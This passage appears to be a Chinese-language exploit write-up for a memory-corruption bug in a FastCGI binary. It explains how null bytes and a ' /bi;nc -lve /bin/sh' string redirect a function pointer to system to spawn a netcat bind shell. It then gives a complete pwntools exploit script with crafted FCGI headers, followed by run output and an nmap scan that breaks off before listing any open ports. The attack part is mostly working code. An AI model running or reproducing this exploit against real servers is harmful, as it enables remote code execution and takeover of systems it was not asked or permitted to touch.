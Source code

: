字符串 " /bi;nc -lve /bin/sh"  
 后面跟着 4 个空字节将绕过这些条件，并导致 FCGX_GetChar  
 函数调用 fillBuffProc  
，实际上它将是 system  
，它将以一个 bash 字符串作为参数，该字符串将启动一个监听 30,000 到 50,000 之间随机端口的 shell，从而导致任意代码执行。  
  
实际上，在这种配置下，bash 命令的长度不超过 15 个字符。然而，如上所述，HTTP Web 服务器会在崩溃时重新运行 fcgi 二进制文件。因此，可以通过多次重放该漏洞，使用 "echo abc > a"  
 将命令写入文件并执行它，从而绕过大小限制。  
  
最终的漏洞利用方式是：  
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./test')

def start(argv=[], *a, **kw):
    return remote("192.168.106.9", 9003)

"""typedef struct {    unsigned char version;    unsigned char type;    unsigned char requestIdB1;    unsigned char requestIdB0;    unsigned char contentLengthB1;    unsigned char contentLengthB0;    unsigned char paddingLength;    unsigned char reserved;} FCGI_Header;"""

def makeHeader(type, requestId, contentLength, paddingLength):
    header = p8(1) + p8(type) + p16(requestId) + p16(contentLength)[::-1] + p8(paddingLength) + p8(0)
    return header

"""typedef struct {    unsigned char roleB1;    unsigned char roleB0;    unsigned char flags;    unsigned char reserved[5];} FCGI_BeginRequestBody;"""

def makeBeginReqBody(role, flags):
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5

io = start()

header = makeHeader(9, 0, 900, 0)

print(hex(exe.plt["system"]))
io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + header + (p8(0x13) + p8(0x13) + b"b" * 0x26)*9 + p8(0) * (2 *2)+ p32(0xffffffff) + p32(0xffffffff)  + b"a" * (4 * 4) + b" /bi;nc -lve /bin/sh" +p32(0) * 3 + p32(exe.plt["system"]) )

io.close()

```  
```
➜  article git:(master) ✗ ./exploit.py
[*] './test'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 192.168.106.9 on port 9003: Done
0x80490b0
[*] Closed connection to 192.168.106.9 port 9003
➜  article git:(master) ✗ sudo nmap -T4 192.168.106.9 -p30000-50000
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-12 18:46 CET
Nmap scan report for 192.168.106.9
Host is up (0.00024s latency).
Not shown: 20000 closed ports
PORT      STATE SERVICE
```